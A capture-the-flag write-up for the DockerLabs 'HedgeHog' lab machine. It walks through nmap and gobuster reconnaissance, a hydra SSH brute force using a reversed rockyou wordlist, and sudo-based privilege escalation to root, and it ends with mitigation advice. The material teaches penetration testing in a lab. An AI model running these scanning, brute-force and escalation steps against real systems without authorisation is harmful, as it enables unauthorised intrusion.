# 🐳 DockerLabs - HedgeHog
 

# 📌 General information


| Machine  | Difficulty | Author    | Target IP  | Category |
| -------- | ---------- | --------- | ---------- | -------- |
| HedgeHog | Very easy  | AnkbNikas | 172.17.0.2 | Service  |




# 🎯 Objective

Identify exposed services, detect vulnerabilities, and gain access to the target system.


# 🛠️ Tools

- **ping***: Connectivity and range check
- **nmap***: Port and services scanning and recognition
- **curl***: http requests
- **gobuster***: Web directory analysis
- **tac***: For reverse file content reading
- **sed***: For string edit of file's content
- **hydra***: For ssh brute force attack


# 🔌 Ports

| Port | Service |
| ---- | ------- |
| 22   | ssh     |
| 80   | http    |


# 📡 Connectivity with ***ping***

```bash
ping -c4 172.17.0.2
```




# 🩻 Scanning with ***nmap***

```bash
nmap -p- -Pn -sS -sV -sC -O -T4 --open 172.17.0.2
```




# 🌐 Sending request to http server

```bash
curl -i http://172.17.0.2
```




# 🩻 Scanning http server with gobuster

```bash
gobuster dir -u http://172.17.0.2 -w DirBuster-2007_directory-list-2.3-medium.txt -x php,html,txt,sh -t 4
```



There's no information nor vulnerabilities to exploit from web server, except the user hint in the page ("tails")


# 💣 SSH Brute Force Attack

First, take the **rockyou.txt*** dictionary content and write it inverted in other file using `tac`
```bash
tac /usr/share/wordlists/rockyou.txt > tailed.txt
```

And then remove the spaces generated by this process using `sed`:
```bash
sed -i 's/ //g' tailed.txt
```

Now, we execute the ssh brute force attack using the latest wordlist dictionary
```bash
hydra -l tails -P tailed.txt -t 4 -v ssh://172.17.0.2
```




# 🔗 Connecting using found credentials

```bash
ssh tails@172.17.0.2
whoami
id
hostname
```



At this point, we don't have root access yet



# 📈 Increasing access

Let's check access and permissions to find a way to obtain root permissions


The **tails*** user is able to execute any command as the user **sonic***, so we will try to execute `bash` as the **sonic*** user


Now, as the sonic user, we can access to **root*** privileges


***Root access obtained!***

## 🕵️‍♂️ Password for sonic user found



# 🪪 Using found credentials




# 🔑 Key points

- User hint exposed in web page
- Vulnerable SSH password
- Low control over users permissions and control access
- Password saved in file inside filessystem without any encryption


# ☠️ Impact

- Full system compromise
- Root level access obtained
- Personal information exposed


# 🔐 Mitigation

- Use a stronger password
- Be careful about the information shown in webpages
- Have an strict control for users and permissions
- Do not save passwords or sensitive information in files with no encryptions or password protection


# 📜 Conclusion

Target machine exploited successfully

1. Identify open ports
2. Exploring and scanning webpages for different ways to penetrate and information
3. Valid credentials detection using brute force attack
4. Scaling access through users
5. Found sensitive information